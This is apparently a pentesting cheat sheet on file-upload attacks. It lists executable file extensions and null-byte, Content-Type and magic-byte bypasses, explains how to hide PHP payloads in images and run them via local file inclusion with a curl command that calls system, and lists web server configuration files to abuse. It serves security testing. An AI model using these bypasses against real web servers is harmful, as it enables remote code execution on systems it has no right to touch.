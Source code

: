 # Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
    * [PHP Extension](#php-extension)
    * [Other extensions](#other-extensions)
    * [Upload tricks](#upload-tricks)
    * [Picture upload with LFI](#picture-upload-with-lfi)
    * [Configuration Files](#configuration-files)
    * [CVE - Image Tragik](#cve---image-tragik)
* [References](#references)


## Tools
- [Fuxploider](https://github.com/almandin/fuxploider)

## Exploits

### PHP Extension

```powershell
.php
.php3
.php4
.php5
.php7

Less known extensions
.pht
.phar
.phpt
.pgif
.phtml
.phtm

Double extensions
.jpeg.php
.jpg.php
.png.php
```

### Other extensions

```powershell
asp : .asp, .aspx, .cer and .asa (IIS <= 7.5), shell.aspx;1.jpg (IIS < 7.0)
perl: .pl, .pm, .cgi, .lib
jsp : .jsp, .jspx, .jsw, .jsv, .jspf
Coldfusion: .cfm, .cfml, .cfc, .dbm
```

### Upload tricks

- Null byte (works well against `pathinfo()`)
    * .php%00.gif
    * .php\x00.gif
    * .php%00.png
    * .php\x00.png
    * .php%00.jpg
    * .php\x00.jpg
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    
    Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

```powershell
HTTP Request
Reverse Shell
Touch command
```

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
